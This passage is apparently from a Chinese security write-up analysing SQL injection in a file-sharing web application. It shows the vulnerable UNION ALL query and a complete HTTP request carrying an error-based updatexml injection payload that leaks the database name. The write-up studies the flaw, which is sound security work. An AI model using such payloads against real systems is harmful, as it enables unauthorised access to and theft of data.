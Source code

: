 ```bash
SELECT `id`,`uid`,`shares_id`,folder_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_folders` WHERE  `uid` = 10  AND `parent_folder` = '3'  AND `delete_time` IS NULL  AND `folder_name` LIKE '%aa%' 

UNION ALL 

( SELECT `id`,`uid`,`shares_id`,origin_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_stores` WHERE  `uid` = 10  AND `parent_folder` = 3  AND `delete_time` IS NULL  AND `origin_name` LIKE '%aa%' ) LIMIT 0,20
```

所以最终的结果就是因为通过了`union`​去拼接起来了，所以才导致了 SQL 注入的产生，破案了

最终报文如下

```bash
GET /file/list?folder_id=1-updatexml(1,concat(0x7e,database(),0x7e),1)&search=&page=&rows= HTTP/1.1
Host: wp.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/json
Referer: http://wp.com/user/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=21cpn2h5jqf7e47k8dtlrhnmk4
Connection: close
```

[![](assets/1709022895-46553c09647046c5b31e61f1f551823c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192007-ff353fba-d498-1.png)
